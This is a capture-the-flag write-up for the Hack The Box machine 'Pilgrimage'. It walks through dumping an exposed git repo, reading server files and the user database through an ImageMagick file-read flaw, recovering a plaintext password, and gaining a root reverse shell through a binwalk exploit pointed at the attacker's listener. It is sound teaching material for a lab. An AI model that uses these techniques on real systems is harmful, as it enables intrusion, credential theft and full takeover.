

## Foothold
Initial nmap:
```
Nmap scan report for 10.10.11.219
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.41 seconds
```
The only ports available are `22` and `80`. Since `22` is related to ssh connection which requires valid credentials, we can start by checking port 80. Nmap shows us that visiting the website on port 80 results in a redirect to `http://pilgrimage.htb`. We can begin by adding this entry into our /etc/hosts file:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.11.219 pilgrimage.htb
```
### Enumerating Web Service
Visiting the page, we can see it is an image shrinker. We are given the option to upload images, and the files will be presumable compressed and returned to us.



When submitting a sample png, we find that it is saved in `/shrunk/` under an altered name:


Trying to upload a non-image file results in a fail message:


When enumerating directories with feroxbuster, we might find an interesting folder named `tmp`.
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ feroxbuster -u http://pilgrimage.htb/          

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
<...SNIP...>
301      GET        7l       11w      169c http://pilgrimage.htb/tmp => http://pilgrimage.htb/tmp/
<...SNIP...>
```
From this, we might get an idea of how this process is being done. First, uploaded files are placed in `/tmp/`, a compression operation is performed and saved to `/shrunk/`, and the link is sent back to us. There is a possibility that this allows for a race condition, where we might upload a php script, have it saved in `/tmp/` and execute the script before the shrinking operation is done and the file is cleaned up. Unfortunately, this does not work presumably because the uploaded files are being renamed using some method we don't know.
### Discovery of git filesystem
If we return to nmap after adding our /etc/hosts entry, we might see interesting new information:
```
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.054s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```
Nmap can identify a .git repository, and this can be done manually as well, with a curl:
```
┌──(kali㉿kali)-[~]
└─$ curl http://pilgrimage.htb/.git/HEAD
ref: refs/heads/master
```
This check is not included in may directory brute-forcing wordlists, so it might be easy to miss. Regardless, now that we know, we can retrieve all contents using [git-dumper](https://github.com/arthaud/git-dumper).
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ python gitdumper.py http://pilgrimage.htb ./repo
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
<...SNIP...>
```
Now with the entire repo gathered with `git-dumper`, we can view the git logs:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage/repo]
└─$ git log                                                                            
commit e1a40beebc7035212efdcb15476f9c994e3634a7 (HEAD -> master)
Author: emily <emily@pilgrimage.htb>
Date:   Wed Jun 7 20:11:48 2023 +1000

    Pilgrimage image shrinking service initial commit.
```
We have a username `emily`, but there aren't extra commits to sift through. However, we have the entire web server files available to us now:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage/repo]
└─$ ls -al
total 26972
drwxr-xr-x 5 kali kali     4096 Nov 19 15:17 .
drwxr-xr-x 3 kali kali     4096 Nov 19 15:13 ..
drwxr-xr-x 6 kali kali     4096 Nov 19 15:14 assets
-rwxr-xr-x 1 kali kali     5538 Nov 19 15:14 dashboard.php
drwxr-xr-x 7 kali kali     4096 Nov 19 15:14 .git
-rwxr-xr-x 1 kali kali     9250 Nov 19 15:14 index.php
-rwxr-xr-x 1 kali kali     6822 Nov 19 15:14 login.php
-rwxr-xr-x 1 kali kali       98 Nov 19 15:14 logout.php
-rwxr-xr-x 1 kali kali 27555008 Nov 19 15:14 magick
-rwxr-xr-x 1 kali kali     6836 Nov 19 15:14 register.php
drwxr-xr-x 4 kali kali     4096 Nov 19 15:14 vendor
```
## Foothold
### File Read via ImageMagick
On the index page, we can see the upload checks being done, and what is done to compress:
```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  $image = new Bulletproof\Image($_FILES);
  if($image["toConvert"]) {
    $image->setLocation("/var/www/pilgrimage.htb/tmp");
    $image->setSize(100, 4000000);
    $image->setMime(array('png','jpeg'));
    $upload = $image->upload();
    if($upload) {
      $mime = ".png";
      $imagePath = $upload->getFullPath();
      if(mime_content_type($imagePath) === "image/jpeg") {
        $mime = ".jpeg";
      }
      $newname = uniqid();
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      unlink($upload->getFullPath());
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
      if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
      header("Location: /?message=" . $upload_path . "&status=success");
```
We can see it is using `magick` to convert, presumably `imagemagick`. The file is located in the webroot, meaning we have it now as well thanks to git-dumper. Alternatively, it could be downloaded directly from `http://pilgrimage.htb/magick`
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage/repo]
└─$ curl http://pilgrimage.htb/magick
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```
We can easily check the version number with `-version`:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage/repo]
└─$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```
ImageMagick has recently disclosed a vulnerability [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268), which might disclose sensitive files with it's image processing. The general idea is this: we send a malicious png pointing to a particular file we want to acquire, and submit it to the shrinker. ImageMagick will process the file and, if the executing user can read it, will append the target file contents to our shrinked image. We can use [this proof of concept](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) to generate our malicious png files and read the output contents.
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ pngcrush -text a "profile" "/etc/hosts" sample.png 
  Recompressing IDAT chunks in sample.png to pngout.png
   Total length of data found in critical chunks            =      2206
   Best pngcrush method        =   4 (ws 15 fm 0 zl 9 zs 1) =      1201
CPU time decode 0.001745, encode 0.006729, other 0.000800, total 0.010875 sec

┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ ls
gitdumper.py  pngout.png  repo  sample.png
```
The file is saved as `pngout.png`. Uploading the file:


To save the file, we can curl again, or visit the page in browser and select "Save As". Retrieving the data hex:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ identify -verbose 655a702e292d2.png 
Image: 655a702e292d2.png
  Format: PNG (Portable Network Graphics)
<...SNIP...>
  Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a
<...SNIP...>
```
205 is related to the hex length, and the numbers following is the hex output. Using [Cyberchef](https://gchq.github.io/CyberChef/) to convert the output:


We can use this to grab the /etc/passwd as well:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
`emily` is a confirmed user, and the only user account created on this system. With the source code acquired from git-dumper, we know where the sqlite database is located. It is unlikely to be delivered well, but we might be able to find credentials in there. From register.php:
```php
<?php
session_start();
if(isset($_SESSION['user'])) {
  header("Location: /dashboard.php");
  exit(0);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
<...SNIP...>
```
### Retrieving database file via ImageMagick
Preparing image:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ pngcrush -text a "profile" "/var/db/pilgrimage" sample.png
  Recompressing IDAT chunks in sample.png to pngout.png
   Total length of data found in critical chunks            =      2206
   Best pngcrush method        =   4 (ws 15 fm 0 zl 9 zs 1) =      1201
CPU time decode 0.001972, encode 0.007074, other 0.000923, total 0.011578 sec
```
output:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ identify -verbose 655a72a92d565.png 
Image: 655a72a92d565.png
  Format: PNG (Portable Network Graphics)
<...SNIP...>
   20480
53514c69746520666f726d61742033001000010100402020000000630000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000063002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
<...SNIP...>
```
As predicted, the hex is massive. Fortunately, Cyberchef still manages to just barely get the job done. And within the file, we see what looks to be a pair of credentials:


`emily:abigchonkyboi123`
If the file is too large to translate, you can try to cut out the long sequences of 0's. Firstly, save into a file:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ head hex.txt   
53514c69746520666f726d61742033001000010100402020000000630000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000063002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
```
Use `sed` to remove lines that are full 0:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ sed 's/000000000000000000000000000000000000000000000000000000000000000000000000//' hex.txt | grep .
53514c69746520666f726d61742033001000010100402020000000630000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000063002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000007c030717191901815374
61626c65696d61676573696d6167657304435245415445205441424c4520696d61676573
202875726c2054455854205052494d415259204b4559204e4f54204e554c4c2c206f7269
67696e616c2054455854204e4f54204e554c4c2c20757365726e616d652054455854204e
4f54204e554c4c292b0406173f190100696e64657873716c6974655f6175746f696e6465
785f696d616765735f31696d616765730566010717171701812b7461626c657573657273
757365727302435245415445205441424c452075736572732028757365726e616d652054
455854205052494d415259204b4559204e4f54204e554c4c2c2070617373776f72642054
455854204e4f54204e554c4c29290206173d170100696e64657873716c6974655f617574
6f696e6465785f75736572735f3175736572730300000008000000000d000000020fdf00
0fe60fdf0000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000502030f0f2761180103172d65
6d696c796162696763686f6e6b79626f693132330a000000020ff1000ff10ff700000000
00000000000000000000000000000000000000000000000000000000000000000005030f
01270208031709656d696c790d000000030f2a000fa90f690f2a00000000000000000000
0000000000003d030469210f687474703a2f2f70696c6772696d6167652e6874622f7368
72756e6b2f363535613733613237663437612e706e676474626173652e706e67273e0204
69230f687474703a2f2f70696c6772696d6167652e6874622f736872756e6b2f36353561
3732626237666237392e706e676578706c6f69742e706e672755010469510f687474703a
2f2f70696c6772696d6167652e6874622f736872756e6b2f363535613663356663376239
352e706e6753637265656e73686f745f323032332d31302d30315f31355f34375f32302e
706e67270a000000030f68000fce0f9b0f68000000000000000000000000000000000000
00000000000000000000000000000000000000000000000032036901687474703a2f2f70
696c6772696d6167652e6874622f736872756e6b2f363535613733613237663437612e70
6e670332036901687474703a2f2f70696c6772696d6167652e6874622f736872756e6b2f
363535613732626237666237392e706e670231036909687474703a2f2f70696c6772696d
6167652e6874622f736872756e6b2f363535613663356663376239352e706e67
```
The hex is much more manageable now, and the password is retained:


## Privilege Escalation
### Enumeration as emily
With these credentials, we can access ssh:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ ssh emily@pilgrimage.htb                                                                           
<...SNIP...>
emily@pilgrimage:~$ whoami
emily
```
Emily does not have sudo privileges:
```
emily@pilgrimage:~$ sudo -l
[sudo] password for emily: 
Sorry, user emily may not run sudo on pilgrimage.
```
When checking running processes, we can find an interesting script named `malwarescan.sh` being run as root:
```
emily@pilgrimage:/tmp$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.2 163784 10048 ?        Ss   02:34   0:03 /sbin/init
<...SNIP...>
root         754  0.0  0.0   6816  2948 ?        Ss   02:35   0:00 /bin/bash /usr/sbin/malwarescan.sh
```
Reading the contents:
```bash
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
It appears that, when files are added to the `/shrunk/` folder, this malwarescan script will run `binwalk -e`, extracting components. if there is blacklisted output, the file is removed.
Running `binwalk` will get us the version, and we can search for vulnerabilities:
```
emily@pilgrimage:~$ binwalk

Binwalk v2.3.2
```
With a quick google search, we can find an [exploit-db post on this](https://www.exploit-db.com/exploits/51249).
### Remote Code Execution via Binwalk vulnerability
The exploit script takes an input image, an attack IP address, and an attacker port number:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ python cve-2022-4510.py sample.png 10.10.14.126 8888

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```
The file can be placed directly through `scp`:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ scp ./innocent.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/       
emily@pilgrimage.htb's password: 
innocent.png                                                                      100% 2969    69.5KB/s   00:00
```
Immediately after uploading, my nc listener receives a connection:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.126] from (UNKNOWN) [10.10.11.219] 36406
whoami
root
```
## Reflection
I particularly enjoy boxes focused around a particular theme, in this situation: image manipulation. I particularly appreciate how this box keeps it mostly simple while showcasing a couple recent CVEs related to extremely common image tools. Retrieving a password from the database directly in this manner was unintuitive for me, as clearly the database file was messy to work with. However with knowing the username we look for, it is easy to identify. 
